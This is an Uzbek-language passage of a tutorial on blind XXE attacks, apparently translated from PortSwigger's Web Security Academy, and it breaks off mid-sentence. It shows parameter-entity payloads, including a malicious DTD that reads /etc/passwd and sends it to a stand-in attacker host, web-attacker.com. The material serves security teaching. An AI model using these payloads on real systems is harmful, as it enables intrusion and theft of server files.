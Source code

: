 Ikkinchidan, parametr entitylari odatdagi &-ning o'rniga % belgisi yordamida qilinadi:

```xml
%myparameterentity;
```

Bu digani siz Blind XXE xujumini, out-of-band aniqlash usuli va XML parametr entitilari bunday ko'rinishda bo'lgan holatidagi payload yozib amalga oshira olasiz:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Ushbu XXE payload xxe deb nomlangan XML parametr entityni e'lon qiladi va keyin DTD ichidagi entitydan foydalanadi. Bu xujum muvaffaqiyatli bo'lganligini tasdiqlashga DNS lookup va hakerning domeniga kelgan HTTP so'rov sabab bo'ladi.

:::caution **Lab**
 [XML parametr entitylari orqali out-of-band o'zaro tasiri yordamida blind XXE  ≫](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)
:::

## Olinadigan ma'lumotlarni out-of-band orqali olish uchun Blind XXE dan foydalanish <a href="#blind-xxe-ni-siqib-chiqariladigan-out-of-band-malumotlarini-exploit-qilish" id="blind-xxe-ni-siqib-chiqariladigan-out-of-band-malumotlarini-exploit-qilish"></a>

Blind XXE zaifliklarini out-of-band orqali aniqlash bu juda yaxshi ammo bu zaiflik sizga uni qanday qilib exploit qilish mumkinligini ko'rsatmasligi mumkin. Haker maxfiy ma'lumotlarni olishni hohlayd. Bunga Blind XXE zaifligi orqali erishish mumkin, ammo bu uchun haker o'zi boshqaradigan serverga zararli DTD-ni joylashtirishi va keyin tashqi DTD-ni tarmoq ichidagi XXE payloadi ichidan ishga tushirishi kerak.

/etc/passwd fayli tarkibini o'chirish uchun zararli DTD misoli quyidagicha:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Ushbu DTD quyidagilarni bajaryapti:

* `file` nomli XML parametr entitysini e'lon qilyapti va unining qiymati sifatida  `/etc/passwd` faylini belgilayapti
* `Exfiltrate` deb nomlangan boshqa XML parametr, entityning dinamik deklaratsiyasini o'z ichiga olgan `eval` deb nomlangan XML parametr entityni e'lon qildi. `Exfiltrate` entitysi URL so'rovlar qatoridagi `file` entitysining qiymatini o'z ichiga olgan haker serveriga HTTP so'rov yuborish orqali aniqlanadi.
* `eval` entitysi `exfiltrate` entitysini ishlashiga sabab bo'ladi.
* `exfiltrate` URL ni aniqlaydi va so'rov yuboradi

Keyin haker zararli DTD ni o'zi boshqaradigan tizimga joylashtirishi kerak, odatda uni o'z serveriga yuklash orqali amalga oshiradi. Masalan, haker zararli DTD ga quyidagi URL manzilini kiritishi mumkin:

